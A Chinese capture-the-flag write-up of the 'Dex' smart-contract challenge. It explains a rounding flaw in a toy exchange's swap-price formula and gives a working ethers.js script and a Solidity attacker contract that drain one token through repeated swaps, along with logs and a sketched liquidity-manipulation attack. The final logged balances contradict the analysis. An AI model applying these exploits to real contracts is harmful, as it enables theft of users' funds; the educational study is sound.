


# Dex

## 题目

要求：将Dex中token1或者token2的余额设置为0

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## 分析

这道题是有关swap和流动性的：一开始Dex拥有100个token1和token2，我拥有10个token1和token2，要想办法将Dex中的token1或者token2设置为0。

- SwappableToken合约只是一个造币的合约，并没有问题
- 重点来看Dex合约，这是一个简单的Dex合约，通过getSwapPrice()计算价格，然后进行swap

我们无法添加流动性和设置token1和token2，因为他有onlyowner修饰，而我们并不是owner

```solidity
  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
```

swap：首先两个常规的`require()`进行检验，然后根据币对比例获取swap的价格，接着进行币对交换。我们进行swap的时候，必须事先给Dex合约approve，否则transferFrom()就会失败，swap失败

```solidity
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

本道题中的重点，根据币对比例获取swap的价格这个函数是有问题的：solidity中没有浮点数运算，任何计算结果都是整数，比如：`5/2=2`而不是`2.5`。进行下面除法的结果会将代币数量四舍五入，这样合约中其中一种代币的总余额会凭空减少。假如我们不断的进行swap，金额不断减少，直到我们拥有足够的钱来进行swap拿走全部的token1或者token2

```solidity
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

举一个连续swap进行攻击的例子：

```
初始状态：Dex中token1余额：100，token2余额：100。我的token1余额：10，token2余额：10。
然后下面不断将全部token1和token2进行swap
========【第1次swap完成】=======
攻击之后,Dex中的token1余额为:110
攻击之后,Dex中的token2余额为:90
攻击之后,Dex中我的token1余额为:0
攻击之后,Dex中我的token2余额为:20
========【第2次swap完成】=======
攻击之后,Dex中的token1余额为:86
攻击之后,Dex中的token2余额为:110
攻击之后,Dex中我的token1余额为:24
攻击之后,Dex中我的token2余额为:0
========【第3次swap完成】=======
攻击之后,Dex中的token1余额为:110
攻击之后,Dex中的token2余额为:80
攻击之后,Dex中我的token1余额为:0
攻击之后,Dex中我的token2余额为:30
========【第4次swap完成】=======
攻击之后,Dex中的token1余额为:69
攻击之后,Dex中的token2余额为:110
攻击之后,Dex中我的token1余额为:41
攻击之后,Dex中我的token2余额为:0
========【第5次swap完成】=======
攻击之后,Dex中的token1余额为:110
攻击之后,Dex中的token2余额为:45
攻击之后,Dex中我的token1余额为:0
攻击之后,Dex中我的token2余额为:65
========【攻击完成】=======
攻击之后,Dex中的token1余额为:0
攻击之后,Dex中的token2余额为:90
攻击之后,Dex中我的token1余额为:110
攻击之后,Dex中我的token2余额为:20
```

## 解题

### 纯ethersjs攻击

头一次自己手写ethersjs代码进行攻击，学到了以下：

- ABI压缩成一行：[工具](https://www.sojson.com/yasuoyihang.html)
- 熟悉了生成可写合约并且和链上交互
- 进行一笔交易的时候，就算正确执行了，也必须等待它上链(使用`方法返回值.wait()`)，否则接下来执行的时候，链上数据还没确认！相当于上一步的方法执行的结果并没有得到确认

```js
const {ethers} = require("ethers")

const provider = ethers.getDefaultProvider("https://eth-goerli.g.alchemy.com/v2/????????????????");
async function y(){
    var DexAddress = '0x22043141CD8E47CE953F4e1BdC15eD7af8a90e9E'
    var DexAbi = '[{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":true,"internalType":"address","name":"previousOwner","type":"address"},{"indexed":true,"internalType":"address","name":"newOwner","type":"address"}],"name":"OwnershipTransferred","type":"event"},{"inputs":[{"internalType":"address","name":"token_address","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"addLiquidity","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"spender","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"approve","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"token","type":"address"},{"internalType":"address","name":"account","type":"address"}],"name":"balanceOf","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address","name":"from","type":"address"},{"internalType":"address","name":"to","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"getSwapPrice","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"owner","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"renounceOwnership","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"_token1","type":"address"},{"internalType":"address","name":"_token2","type":"address"}],"name":"setTokens","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"from","type":"address"},{"internalType":"address","name":"to","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"swap","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"token1","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"token2","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address","name":"newOwner","type":"address"}],"name":"transferOwnership","outputs":[],"stateMutability":"nonpayable","type":"function"}]'
    
    //连接用户
    //利用私钥和provider创建wallet对象
    const privateKey = '????????????????????????????????'
    const wallet = new ethers.Wallet(privateKey, provider)
    // 声明可写合约
    const DexContract = new ethers.Contract(DexAddress, DexAbi, wallet)


    //查看初始状态
    const token1Address = await DexContract.token1()
    const token2Address = await DexContract.token2()
    console.log(`token1的地址${token1Address}`)
    console.log(`token2的地址${token2Address}`)

    const balance1 = await DexContract.balanceOf(token1Address,DexAddress)
    const balance2 = await DexContract.balanceOf(token2Address,DexAddress)
    console.log(`攻击之前,Dex中的token1余额为:${balance1.toString()}`)
    console.log(`攻击之前,Dex中的token2余额为:${balance2.toString()}`)

    const myAddress = await wallet.address

    const balance3 = await DexContract.balanceOf(token1Address,myAddress)
    const balance4 = await DexContract.balanceOf(token2Address,myAddress)
    console.log(`攻击之前,Dex中我的token1余额为:${balance3.toString()}`)
    console.log(`攻击之前,Dex中我的token2余额为:${balance4.toString()}`)


    //进行攻击
    //1.授权给Dex，这样我们Dex才可以进行交换
        //1.1准备工作
        var IERC20Abi = '[{"anonymous":false,"inputs":[{"indexed":true,"internalType":"address","name":"owner","type":"address"},{"indexed":true,"internalType":"address","name":"spender","type":"address"},{"indexed":false,"internalType":"uint256","name":"value","type":"uint256"}],"name":"Approval","type":"event"},{"anonymous":false,"inputs":[{"indexed":true,"internalType":"address","name":"from","type":"address"},{"indexed":true,"internalType":"address","name":"to","type":"address"},{"indexed":false,"internalType":"uint256","name":"value","type":"uint256"}],"name":"Transfer","type":"event"},{"inputs":[{"internalType":"address","name":"owner","type":"address"},{"internalType":"address","name":"spender","type":"address"}],"name":"allowance","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address","name":"spender","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"approve","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"account","type":"address"}],"name":"balanceOf","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"totalSupply","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address","name":"to","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"transfer","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"address","name":"from","type":"address"},{"internalType":"address","name":"to","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"transferFrom","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"}]'
        //1.2声明token1合约并且授权
        const token1Contract = new ethers.Contract(token1Address, IERC20Abi, wallet)
        var approve1 = await token1Contract.approve(DexAddress,99999)
        await approve1.wait()
        console.log('给Dex授权token1完成')
        //1.3声明token2合约并且授权
        const token2Contract = new ethers.Contract(token2Address, IERC20Abi, wallet)
        var approve2 = await token2Contract.approve(DexAddress,99999)
        await approve2.wait()
        console.log('给Dex授权token2完成')
    //2.进行五次swap
    console.log('开始进行swap')

    var balanceIn1 = await token1Contract.balanceOf(myAddress)
    var tx1 = await DexContract.swap(token1Address,token2Address,parseInt(balanceIn1.toString()))
    await tx1.wait()
    console.log('========【第1次swap完成】=======')
        const swap_token1_1 = await DexContract.balanceOf(token1Address,DexAddress)
        const swap_token2_1 = await DexContract.balanceOf(token2Address,DexAddress)
        console.log(`攻击之后,Dex中的token1余额为:${swap_token1_1.toString()}`)
        console.log(`攻击之后,Dex中的token2余额为:${swap_token2_1.toString()}`)

        const swap_token3_1 = await DexContract.balanceOf(token1Address,myAddress)
        const swap_token4_1 = await DexContract.balanceOf(token2Address,myAddress)
        console.log(`攻击之后,Dex中我的token1余额为:${swap_token3_1.toString()}`)
        console.log(`攻击之后,Dex中我的token2余额为:${swap_token4_1.toString()}`)


    var balanceIn2 = await token2Contract.balanceOf(myAddress)
    var tx2 = await DexContract.swap(token2Address,token1Address,parseInt(balanceIn2.toString()))
    await tx2.wait()
    console.log('========【第2次swap完成】=======')
        const swap_token1_2 = await DexContract.balanceOf(token1Address,DexAddress)
        const swap_token2_2 = await DexContract.balanceOf(token2Address,DexAddress)
        console.log(`攻击之后,Dex中的token1余额为:${swap_token1_2.toString()}`)
        console.log(`攻击之后,Dex中的token2余额为:${swap_token2_2.toString()}`)

        const swap_token3_2 = await DexContract.balanceOf(token1Address,myAddress)
        const swap_token4_2 = await DexContract.balanceOf(token2Address,myAddress)
        console.log(`攻击之后,Dex中我的token1余额为:${swap_token3_2.toString()}`)
        console.log(`攻击之后,Dex中我的token2余额为:${swap_token4_2.toString()}`)


    var balanceIn3 = await token1Contract.balanceOf(myAddress)
    var tx3 = await DexContract.swap(token1Address,token2Address,parseInt(balanceIn3.toString()))
    await tx3.wait()
    console.log('========【第3次swap完成】=======')
        const swap_token1_3 = await DexContract.balanceOf(token1Address,DexAddress)
        const swap_token2_3 = await DexContract.balanceOf(token2Address,DexAddress)
        console.log(`攻击之后,Dex中的token1余额为:${swap_token1_3.toString()}`)
        console.log(`攻击之后,Dex中的token2余额为:${swap_token2_3.toString()}`)

        const swap_token3_3 = await DexContract.balanceOf(token1Address,myAddress)
        const swap_token4_3 = await DexContract.balanceOf(token2Address,myAddress)
        console.log(`攻击之后,Dex中我的token1余额为:${swap_token3_3.toString()}`)
        console.log(`攻击之后,Dex中我的token2余额为:${swap_token4_3.toString()}`)

    var balanceIn4 = await token2Contract.balanceOf(myAddress)
    var tx4 = await DexContract.swap(token2Address,token1Address,parseInt(balanceIn4.toString()),{ gasLimit: 21000000, gasPrice: 50000000000 })
    await tx4.wait()
    console.log('========【第4次swap完成】=======')
        const swap_token1_4 = await DexContract.balanceOf(token1Address,DexAddress)
        const swap_token2_4 = await DexContract.balanceOf(token2Address,DexAddress)
        console.log(`攻击之后,Dex中的token1余额为:${swap_token1_4.toString()}`)
        console.log(`攻击之后,Dex中的token2余额为:${swap_token2_4.toString()}`)

        const swap_token3_4 = await DexContract.balanceOf(token1Address,myAddress)
        const swap_token4_4 = await DexContract.balanceOf(token2Address,myAddress)
        console.log(`攻击之后,Dex中我的token1余额为:${swap_token3_4.toString()}`)
        console.log(`攻击之后,Dex中我的token2余额为:${swap_token4_4.toString()}`)


    var balanceIn5 = await token1Contract.balanceOf(myAddress)
    var tx5 = await DexContract.swap(token1Address,token2Address,parseInt(balanceIn5.toString()),{ gasLimit: 21000000, gasPrice: 50000000000 })
    await tx5.wait()
    console.log('========【第5次swap完成】=======')
        const swap_token1_5 = await DexContract.balanceOf(token1Address,DexAddress)
        const swap_token2_5 = await DexContract.balanceOf(token2Address,DexAddress)
        console.log(`攻击之后,Dex中的token1余额为:${swap_token1_5.toString()}`)
        console.log(`攻击之后,Dex中的token2余额为:${swap_token2_5.toString()}`)

        const swap_token3_5 = await DexContract.balanceOf(token1Address,myAddress)
        const swap_token4_5 = await DexContract.balanceOf(token2Address,myAddress)
        console.log(`攻击之后,Dex中我的token1余额为:${swap_token3_5.toString()}`)
        console.log(`攻击之后,Dex中我的token2余额为:${swap_token4_5.toString()}`)


    var tx_complete = await DexContract.swap(token2Address,token1Address,45,{ gasLimit: 2100000, gasPrice: 50000000000 })
    await tx_complete.wait()
    console.log('========【攻击完成】=======')

    //检验结果
    const token1AfterAttack = await DexContract.balanceOf(token1Address,DexAddress)
    const token2AfterAttack = await DexContract.balanceOf(token2Address,DexAddress)
    console.log(`攻击之后,Dex中的token1余额为:${token1AfterAttack.toString()}`)
    console.log(`攻击之后,Dex中的token2余额为:${token2AfterAttack.toString()}`)

    const myToken1AfterAttack = await DexContract.balanceOf(token1Address,myAddress)
    const myToken2AfterAttack = await DexContract.balanceOf(token2Address,myAddress)
    console.log(`攻击之后,Dex中我的token1余额为:${myToken1AfterAttack.toString()}`)
    console.log(`攻击之后,Dex中我的token2余额为:${myToken2AfterAttack.toString()}`)

}
y()

```

输出结果

```shell
token1的地址0x9Faf5813FB3d33780046F67554b29a5900dD4e0b
token2的地址0x9510ec9eEd4fe4f42a49EB0529E2C9d222c66165
攻击之前,Dex中的token1余额为:100
攻击之前,Dex中的token2余额为:100
攻击之前,Dex中我的token1余额为:10
攻击之前,Dex中我的token2余额为:10
给Dex授权token1完成
给Dex授权token2完成
开始进行swap
========【第1次swap完成】=======
攻击之后,Dex中的token1余额为:110
攻击之后,Dex中的token2余额为:90
攻击之后,Dex中我的token1余额为:0
攻击之后,Dex中我的token2余额为:20
========【第2次swap完成】=======
攻击之后,Dex中的token1余额为:86
攻击之后,Dex中的token2余额为:110
攻击之后,Dex中我的token1余额为:24
攻击之后,Dex中我的token2余额为:0
========【第3次swap完成】=======
攻击之后,Dex中的token1余额为:110
攻击之后,Dex中的token2余额为:80
攻击之后,Dex中我的token1余额为:0
攻击之后,Dex中我的token2余额为:30
========【第4次swap完成】=======
攻击之后,Dex中的token1余额为:69
攻击之后,Dex中的token2余额为:110
攻击之后,Dex中我的token1余额为:41
攻击之后,Dex中我的token2余额为:0
========【第5次swap完成】=======
攻击之后,Dex中的token1余额为:110
攻击之后,Dex中的token2余额为:45
攻击之后,Dex中我的token1余额为:0
攻击之后,Dex中我的token2余额为:65
========【攻击完成】=======
攻击之后,Dex中的token1余额为:90
攻击之后,Dex中的token2余额为:0
攻击之后,Dex中我的token1余额为:110
攻击之后,Dex中我的token2余额为:20
```

成功





### remix调用合约攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/IERC20.sol";
import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}

contract attacker{
    Dex public immutable dex;
    IERC20 public immutable token1;
    IERC20 public immutable token2;

    constructor(Dex _dex){
        dex = _dex;
        token1 = IERC20(dex.token1());
        token2 = IERC20(dex.token2());
    }

    function attack() public{

        token1.transferFrom(msg.sender, address(this), 10);
        token2.transferFrom(msg.sender, address(this), 10);

        token1.approve(address(dex), type(uint256).max);
        token2.approve(address(dex), type(uint256).max);
    
        _swap(token1, token2);
        _swap(token2, token1);
        _swap(token1, token2);
        _swap(token2, token1);
        _swap(token1, token2);
    
        dex.swap(address(token2), address(token1), 45);
        require(token1.balanceOf(address(dex)) == 0,"dex balance != 0");
    }

    function _swap(IERC20 tokenIn, IERC20 tokenOut) public{
        dex.swap(address(tokenIn), address(tokenOut), tokenIn.balanceOf(address(this)));
    }

}
```

## 另外

此题如果添加流动性没有onlyOwner修饰，那么我们还可以通过另外一种方式攻击：自己创建一种代币，给自己mint 1百万个，添加流动性，然后直接换走100的token1。

当然下面的代码并不完善！只是整体思路如下：

```js
const {ethers} = require("ethers")

const provider = ethers.getDefaultProvider("https://eth-goerli.g.alchemy.com/v2/??????????vvjKtn6UAi");
async function y(){
    var address = '0x17aC72d1a7834170CfbC3D268bE4aeBa0ebBd827'
    var abi = '[{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":true,"internalType":"address","name":"previousOwner","type":"address"},{"indexed":true,"internalType":"address","name":"newOwner","type":"address"}],"name":"OwnershipTransferred","type":"event","signature....'
    
    //连接用户
    //利用私钥和provider创建wallet对象
    const privateKey = '????????????????'
    const wallet = new ethers.Wallet(privateKey, provider)
    // 声明可写合约
    const contract = new ethers.Contract(address, abi, wallet)


    //查看初始状态
    const token1 = await contract.token1()
    const token2 = await contract.token2()
    console.log(`token1的地址${token1}`)
    console.log(`token2的地址${token2}`)

    const balance1 = await contract.balanceOf(token1,address)
    const balance2 = await contract.balanceOf(token2,address)
    console.log(`初始状态,Dex中的token1余额为:${balance1.toString()}`)
    console.log(`初始状态,Dex中的token2余额为:${balance2.toString()}`)


    //部署合约
    const abiAttack = '[{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":true,"internalType":"address","name":"owner","type":"address"},....'
    const bytecode = '60806040523480156200001157600080fd5b506040518060400160405280600881526020017f446578546f6b656e0000000000000000000000000000000000000000000000008152506040518060400160405280600981526020017f446578536f6c766572000000000000000000000000000000000000000000000081525081600390816200008f9190620004ef565b508060049081620000a19190620004ef565b505050620000e433620000b9620000e.......'
    const deployTokenFactory = new ethers.ContractFactory(abiAttack, bytecode, wallet);
    // 利用deployTokenFactory部署ERC20代币合约
    console.log("利用deployTokenFactory部署ERC20代币合约")
    const deployTokenContract = await deployTokenFactory.deploy()
    console.log(`合约地址: ${deployTokenContract.address}`);
    console.log("等待合约部署上链")
    await deployTokenContract.deployed()
    console.log("合约已上链")

    //调用攻击方法
    //1.approve给Dex合约
    await deployTokenContract.approve(address,'100000000')
    console.log("完成approve")
    //2.增加流动性100
    await contract.addLiquidity(deployTokenContract.address,100)
    console.log("完成添加流动性")
    //3.查看用我创造的token，用100可以换多少token1
    const tokenToGet = await contract.getSwapPrice(deployTokenContract.address,token1,100)
    console.log(`查看用我创造的token,用100可以换多少token1:${tokenToGet.toString()}`)
    //4.交换
    await contract.swap(deployTokenContract.address,token1,100)
    console.log("完成swap")

    //检验结果
    const balanceAfterAttack = await contract.balanceOf(token1,address)
    console.log(`攻击之后,Dex中的token1余额为:${balanceAfterAttack.toString()}`)

}
y()
```

当然这个靶场换题目了，这个方法在这不适用
